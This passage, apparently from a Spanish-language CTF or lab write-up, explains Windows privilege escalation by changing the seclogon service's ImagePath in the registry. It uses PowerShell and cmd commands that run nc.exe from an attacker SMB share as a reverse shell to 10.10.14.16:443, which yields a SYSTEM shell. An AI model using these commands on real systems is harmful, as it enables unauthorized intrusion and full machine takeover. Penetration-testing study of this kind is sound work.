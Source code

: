 ![Modificaciones de servicio](images/post_12.png)

1. Ejecutar `set-itemproperty seclogon -name imagepath -value "\\10.10.14.16\smbFolder\nc.exe -e cmd.exe 10.10.14.16 443"` para modificar los valores con los deseados.
2. Obtener las propiedades del servicio querido `seclogon` para validar el cambio.
3. Visualizar el cambio realizado a `ImagePath`.

El cual al montar la conexión de escucha, bastaría con iniciar el servicio con `start-service seclogon` para así ejecutar el binario indicado.

![Reverse shell como nt authority\system](images/post_13.png)

#### Usando cmd

Mediante cmd se realizaría el mismo procedimiento con respectivos cambios en los comandos debido que powershell configura alias en algunos comandos, por lo que, se ejecutaría:

1. `reg query HKLM\system\currentcontrolset\services\seclogon` para visualizar los valores del servicio.
2. `reg add HKLM\system\currentcontrolset\services\seclogon /v ImagePath /t REG_EXPAND_SZ /d "\\10.10.14.16\smbFolder\nc.exe -e cmd.exe 10.10.14.16 443" /f` para cambiar los valores de la propiedad `ImagePath` de acuerdo a lo encontrado en [este blog](https://www.windowscentral.com/how-edit-registry-using-command-prompt-windows-10) para realizar los cambios e identificar el tipo de dato a cambiar `REG_EXPAND_SZ` para efectuarlo correctamente.
3. `sc start seclogon` para iniciar el servicio.

# Notas adicionales
